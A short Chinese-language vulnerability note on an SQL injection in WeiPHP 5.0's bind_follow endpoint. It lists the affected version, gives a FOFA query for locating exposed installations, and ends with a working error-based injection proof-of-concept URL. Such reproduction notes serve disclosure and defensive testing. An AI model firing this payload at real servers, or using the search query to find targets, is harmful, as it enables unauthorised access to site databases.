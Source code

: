 # WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

```
Weiphp5.0
```

## FOFA

```
app="WeiPHP"
```

## 漏洞复现

登陆页面

![img](./images/202202162318466.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```